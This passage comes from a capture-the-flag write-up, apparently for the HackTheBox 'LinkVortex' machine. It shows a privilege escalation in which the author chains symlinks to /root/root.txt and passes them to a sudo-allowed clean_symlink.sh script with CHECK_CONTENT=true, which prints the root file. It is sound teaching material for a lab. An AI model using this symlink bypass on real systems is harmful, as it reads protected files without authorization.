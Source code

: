 I created two symlinks using the `ln` command. The `ln` command in Linux is used to create links to files and directories. According to the script, the content of the quarantined file was only printed if the `CHECK_CONTENT` variable was set to `true`.

```bash
export CHECK_CONTENT=true
```

After collecting all the information, I created two symlinks.

```bash
touch link1.png
`ln -sf /root/root.txt link1.png`
touch link2.png
`ln -sf /home/bob/link1.png link2.png`
```

In the first symlink, `link1.png` is points to `/root/root.txt`.
In the second symlink, the `link1.png` was stored at `/home/bob`, so I used `link2.png`, which pointed to `/home/bob/link1.png`.

I used `link2.png` for the `clean_symlink.sh` script because it would consider `/home/bob/link1.png` as the valid symlink.

```bash
sudo bash /opt/ghost/clean_symlink.sh link2.png
```

![Root Flag](/assets/images/writeups/LinkVortex-HTB/13.png)

